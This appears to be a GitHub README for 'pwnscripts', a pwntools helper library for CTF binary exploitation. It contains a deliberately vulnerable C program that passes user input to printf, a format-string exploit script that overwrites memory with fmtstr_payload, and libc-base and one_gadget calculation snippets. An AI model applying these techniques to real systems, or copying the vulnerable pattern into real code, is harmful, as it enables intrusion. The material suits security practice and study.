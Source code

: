 # pwnscripts
Very simple script(s) to hasten binary exploit creation. To use, replace `from pwn import *` with `from pwnscripts import *`, e.g.

```python
from pwnscripts import *
context.binary = './my_challenge'
...
```

It's messy and it works. Current features:
  * `find_printf_offset_*`: helper functions to bruteforce wanted printf offsets. Important ones:
    1. _buffer: find the offset to whatever's manipulating the input format string. A common example:
    2. _libc/_PIE: find a libc/PIE address with a specific offset
    ```python
    '''Imagine a C program like the following:
    #include <stdio.h>
    #include <string.h>
    void win() { puts("great job"); }
    int main() {
        char s[64];
        memset(s, 0, 64);
        printf("%p\n", s);
        fgets(s, 50, stdin);
        printf(s);
        if (*(int*)(s+56) == 0x12345678) win();
    } // gcc main.c -o main.o'''
    from pwnscripts import *
    context.binary = 'main.o'
    def printf(l: str): # First, a function to abstract out the printf() i/o for pwnscripts
        r = remote(...)
        r.sendafter('\n', l)
        return r.recvline()
    # Let's say we want to write to s[56]. We first find the printf() offset to s[]:
    offset = find_printf_offset_buffer(printf)
    # Then we use pwntools' fmtstr_payload to proceed:
    r = remote(...)
    addr = extract_first_hex(r.recvline())  #another pwnscripts func
    payload = fmtstr_payload(offset, {addr+56: 0x12345678}, write_size='short')
    r.sendline(payload)
    r.interactive()
    ```
  * `libc_db`: a basic class for dealing with the libc-database project
    ```python
    db = libc_db('/path/to/libc-database', '<libc_id>') # e.g. libc6_2.27-3ubuntu1.2_amd64
    one_gadget = db.select_gadget() # Console will prompt for a selection. Behaviour may change.
    ... <insert exploit code to leak libc address here> ...
    # Let's say the libc address of `puts` was leaked as `libc_puts`
    libc_base = db.calc_base('puts', libc_puts)
    ```
  * `extract_(all|first)_hex`: simple wrapper for a hex value regex

## I tried using it; it doesn't work!

File in an [issue](https://github.com/152334H/pwnscripts/issues), if you can. With a userbase of 1, it's hard to guess what might go wrong, but potentially:
 * The software is broken
 * Python is outdated
 * The challenge is neither i386 or amd64; other architectures aren't implemented (yet).
 * The challenge is amd64, but `context.arch` wasn't set to `amd64`

     * Set `context.binary` appropriately, or set `context.arch` manually if no binary is given
 * The printf offset bruteforcing range is insufficient

     * Overwrite `PWNSCRIPT_PRINTF_MAX` with an appropriate value.

 * The printf offset lies on an unaligned boundary. Some challenges are designed this way; workaround planned.

## Updates

20-08

Added a wrapper object for libc-database: the `libc_db` object. This is mostly a reinvention of tools like `LibcSearcher`, although I have yet to see another project tack on `one_gadget` searching, which is a (hacky) feature added for `libc_db`.

Extended readme.

20-06

Added module packaging stuff, so that `pip install -e .` works

You can now see a test example of this library in `test.py`.

Gradual updates expected as I continue to do pwn.
